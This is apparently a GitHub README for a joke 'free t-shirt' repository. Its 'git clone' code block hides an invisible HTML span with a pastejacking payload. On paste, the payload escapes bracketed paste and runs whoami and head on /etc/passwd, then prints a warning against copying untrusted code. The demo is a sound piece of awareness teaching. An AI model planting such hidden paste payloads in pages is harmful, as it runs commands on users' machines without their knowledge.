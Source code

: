 # can-i-have-a-free-tshirt
Thanks.

## Contributors
boka (boka@slickage.com)

## Messages
boka:  Thank you!

```
git clone
<span style="position: absolute; /* left: -1000px; */ /* top: -1000px*/">[201~/dev/null; clear; echo -n "Hello ";whoami|tr -d '\n';echo -e '!\nThat was a bad idea. Don'"'"'t copy code from websites you don'"'"'t trust!<br>Here'"'"'s the first line of your /etc/passwd: ';head -n1 /etc/passwd<br>git clone </span>
https://github.com/JGefroh/can-i-have-a-free-tshirt.git
```
